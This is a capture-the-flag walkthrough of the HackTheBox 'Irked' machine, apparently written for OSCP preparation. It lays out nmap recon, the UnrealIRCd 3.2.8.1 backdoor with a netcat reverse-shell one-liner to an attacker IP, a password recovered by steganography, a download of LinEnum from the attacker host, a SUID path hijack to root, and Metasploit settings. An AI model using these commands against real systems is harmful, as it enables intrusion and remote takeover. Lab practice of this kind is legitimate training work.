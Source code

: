 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

- **Initial Access**: IRC backdoor (UnrealIRCd 3.2.8.1)
- **Privilege Escalation**: SUID binary misconfiguration + steganography

---

## 🔍 Recon

### 📦 Full TCP & UDP Scan
```bash
nmap -sT -p- --min-rate 10000 -oA nmap/alltcp 10.10.10.117
nmap -sU -p- --min-rate 10000 -oA nmap/alludp 10.10.10.117
```

### 🔍 Service Detection
```bash
nmap -sC -sV -p 22,80,111,6697,8067,65534 -oA nmap/scripts 10.10.10.117
```

---

## 🌐 Web Enumeration

### 🖼️ Download Site Image
```bash
wget http://10.10.10.117/irked.jpg
```

---

## 💬 [IRC](IRC.md) Enumeration

### 🧰 HexChat (GUI)
Connect to:
```
irked.htb : 6697, 8067, 65534
```

### 🔍 Check UnrealIRCd Exploit
```bash
searchsploit UnrealIRCd
```

---

## 🐚 Shell as ircd (IRC Backdoor Exploit)

### 🔎 Confirm RCE
```bash
nc 10.10.10.117 6697
# In nc:
AB; ping -c 1 10.10.14.14
```

### 🧬 Reverse Shell via IRC
```bash
nc 10.10.10.117 6697
# In nc:
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 443 >/tmp/f
```

```bash
nc -lnvp 443
```

### 🐍 Python Exploit Alternative
```bash
./unreal_3.2.8.1_exploit.py 10.10.10.117 6697 10.10.14.14 443
```

---

## 🧩 PrivEsc: ircd → djmardov

### 📁 Find Hidden File
```bash
cd /home/djmardov/Documents
cat .backup
# Output: UPupDOWNdownLRlrBAbaSSss
```

### 🔓 Extract with steghide
```bash
steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss
cat pass.txt
# Output: Kab6h+m+bbp2J:HG
```

### 🔐 su or SSH to djmardov
```bash
su djmardov
# or
ssh djmardov@10.10.10.117
# Password: Kab6h+m+bbp2J:HG
```

```bash
cat user.txt
```

---

## 🔼 PrivEsc: djmardov → root

### 🔍 Upload & Run LinEnum
```bash
cd /dev/shm
wget http://10.10.14.14/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh -t
```

### 🔍 Suspicious Binary
```bash
ls -l /usr/bin/viewuser
# SUID root binary
```

### 📂 Hijack /tmp/listusers
```bash
echo "id" > /tmp/listusers
chmod +x /tmp/listusers
viewuser
```

```bash
echo "sh" > /tmp/listusers
viewuser
```

```bash
id
cat /root/root.txt
```

---

## 🔬 Beyond Root

### 🔍 Metasploit IRC Backdoor Behavior
```bash
msfconsole
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 10.10.10.117
set RPORT 6697
set LHOST 10.10.14.14
set LPORT 4444
run
```

### 🧵 Process List
```bash
ps aux | grep ircd
```

---

## ❌ Alternate Exploit Paths (Did Not Work)

### 🚫 Exim Local Exploit
```bash
/usr/sbin/exim -bV -v | grep Perl
# No Perl → Not vulnerable
```

### 🚫 CVE-2018-6789 Attempt
```bash
# SSH tunnel to expose port 25
ssh djmardov@10.10.10.117 -L 25:localhost:25

# Run exploit
python exim_exp.py 10.10.14.14 443 127.0.0.1
```

---

Let me know if you’d like this merged with your HTB collection or saved as a Markdown file!